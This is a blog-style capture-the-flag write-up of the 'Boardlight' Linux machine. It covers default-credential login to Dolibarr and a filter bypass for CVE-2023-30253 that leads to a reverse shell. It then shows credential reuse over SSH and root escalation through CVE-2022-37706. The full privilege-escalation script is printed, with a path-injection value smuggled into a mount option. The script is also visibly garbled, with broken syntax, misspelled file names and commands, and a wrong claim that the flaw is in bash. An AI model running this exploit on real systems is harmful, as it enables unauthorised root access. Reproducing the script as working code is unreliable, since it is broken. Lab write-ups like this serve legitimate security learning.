 ```yaml
---
layout: post
title: "Boardlight-Linux-Easy"
date:   2025-07-12 12:05:57 -0400
categories: writeups
thumb: /assets/images/logos/7768afed979c9abe917b0c20df49ceb8.webp
---
```


# Boardlight

# 1. Enumeration
<br/><br/>
We start with nmap scanning, two ports open, one of them a web application
<br/><br/>
![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled.png' | relative_url }})
<br/><br/>
Let’s see what is this about, previously the dns recognition was unsuccessful, but thanks to the contact information we can see the domain
<br/><br/>
![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_1.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_2.png' | relative_url }})
<br/><br/>
So we proceed to find a subdomain using three different tools
<br/><br/>
![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_3.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_4.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_5.png' | relative_url }})
<br/><br/>
Dolibar sign-in as usually we need to discard obvious vulnerabilities as default credentials, and we bypass login interface
<br/><br/>
![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_6.png' | relative_url }})
<br/><br/>
# 2. User flag
<br/><br/>
We’ve got the version of the software before, after searching on google we found there’s a vulnerability where someone with determine permissions can obtain RCE **(CVE-2023-30253)**
<br/><br/>
![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_7.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_8.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_9.png' | relative_url }})
<br/><br/>
Go to create a new website 
<br/><br/>
![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_10.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_11.png' | relative_url }})
<br/><br/>
The vulnerability consists in edit HTML source, apparently we can’t use php code because we don’t have those permissions but if we try to use variants like “Php, phP, pHp” this filter will be bypassed, using a normal reverse shell we could get a shell as `data`
<br/><br/>
![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_12.png' | relative_url }})
<br/><br/>
Looking for config files where data has reading permissions we found credentials for the database
<br/><br/>
![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_13.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_14.png' | relative_url }})
<br/><br/>
If we try to break into the database, it would be useless because it has tons of tables, and users registered are admin:admin that we guess before
<br/><br/>
![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_15.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_16.png' | relative_url }})
<br/><br/>
Try to use those creds on ssh and got the user flag 
<br/><br/>
![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_17.png' | relative_url }})
<br/><br/>
# 3.Priv esc
<br/><br/>
Using linpeas to enumerate the system we found a set uid binary in a path, casualty one of the directories of the path has almost the same of the machine it could be promising
<br/><br/>
![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_18.png' | relative_url }})
<br/><br/>
There is a vulnerability
<br/><br/>
CVE-2022-37706 in bash, basically the system library function mishandles path names that begin with /dev/.. substring
<br/><br/>
```bash
#!/usr/bin/bash

#This code is trying to search a specific vulnerable SUID 
#if if find it, it try to leverage it to obtain full access

echo "CVE-2022-37706"
echo "[*]Trying to find the file of the vulnerable SUID"

#It search through the whole file system with string "enlightenment_sys"
#which has the following permises: SUID (-4000).
#Redirects all errors to /dev/null

file =$(find / -name enlightment_sys -perm -4000 2>/dev/null | head -1)

if[[ -z ${file} ]]
then 
	echo "[- Couldn't find the vulnerable SUID file...]"
	echo "[*] Enlightment should be installed on your system"
	exit 1
	
fi

echo "[+] Vulnerable SUID binery found!!"
echo "[+] Trying to pop up a root shell"

#It creates necessary directories to the exploit 
mkdir -b /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit 

ëcho "[+] Welcome to the rabbit holee!!"

${file} /bin/mount -o \noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,iud=(id -u),\"/dev/../tmp/;/tmp/expoit" /tmp///net

read -p "press any key to clean"

sleep 5 
rm -rf /tmp/exploit
rm -rf /tmp/net

echo -e "Done"

```
<br/><br/>
![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_19.png' | relative_url }})
<br/><br/>
<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>
<br/><br/>

<link rel="stylesheet" href="{{ '/assets/css/imagesstyle.css' | relative_url }}">
